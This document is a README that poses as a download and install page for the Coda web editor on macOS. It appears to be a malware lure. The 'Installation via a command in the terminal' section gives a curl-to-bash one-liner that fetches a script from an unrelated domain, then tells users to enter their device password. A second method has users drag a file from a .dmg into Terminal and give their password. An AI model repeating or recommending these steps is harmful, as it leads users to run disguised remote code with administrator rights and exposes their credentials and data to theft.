 # 🧩 Coda — All-in-One Web Development Editor for macOS

**Coda** is a powerful and elegant web development editor designed exclusively for macOS by Panic Inc. It combines a feature-rich text editor, built-in file management, real-time preview, and publishing tools in a single native app. Perfect for web developers, designers, and coders who want to build, test, and deploy websites efficiently on Mac.

With support for HTML, CSS, JavaScript, PHP, and more, Coda delivers a streamlined and productive workflow optimized for macOS, including Apple Silicon Macs.

---

## ✅ Download Coda for macOS  
[![Download Coda](https://img.shields.io/badge/Download-Coda-blueviolet)](https://coda-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Coda?

Coda is a comprehensive web editor that brings together coding, previewing, and file transfer into one intuitive macOS app. It features syntax highlighting for multiple languages, live preview of your web pages, integrated terminal, and support for FTP/SFTP and WebDAV. Its native macOS design ensures fast performance and seamless integration with system features.

---

## ✨ Features

- 🖊️ Advanced code editor with syntax highlighting and autocomplete  
- 🌐 Real-time preview for instant feedback on code changes  
- 🔄 Built-in FTP, SFTP, and WebDAV client for easy publishing  
- 🛠 Integrated terminal and MySQL database management  
- 📁 File management with sidebar and tabs for multitasking  
- 🌙 Dark mode and macOS native UI support  
- 🧩 Plugin support for extending functionality  
- 🖥 Optimized for macOS Ventura and Apple Silicon (M1/M2/M3)  
- 🧠 Code folding, multi-caret editing, and find/replace tools  
- 📦 Support for CSS preprocessors like Sass and LESS  

---

## 💡 Why Use Coda?

- 🎯 All-in-one tool eliminating the need for multiple apps  
- ⚡ Fast, native macOS performance and smooth UI  
- 🔐 Secure and easy website publishing directly from the app  
- 🧩 Extensible with plugins and customizable shortcuts  
- 🖱 Ideal for beginners and professional web developers alike  
- 🔄 Regular updates with new features and macOS compatibility  

---

[![Download Coda](https://img.shields.io/badge/Download-Coda-blueviolet)](https://coda-mac-download.github.io/.github)

---

## 🖼 Preview

![Coda Screenshot 1](https://www.mactrast.com/wp-content/uploads/2019/03/coda_replacement_screenshot.png)  
![Coda Screenshot 2](https://panic.com/coda/images/screenshots-editor-dark-256.png)

---

## 📌 Tags

coda mac, coda mac app, coda app mac, coda editor mac, coda html editor for mac,  
coda mac os, coda osx, coda download for mac, coda macos app, download coda for mac,  
coda mac download, mac coda html, panic coda mac, web editor mac, mac html editor,  
ftp client mac, mac code editor, coda dark mode mac, coda sass support mac,  
coda macbook app, coda mac developer

---
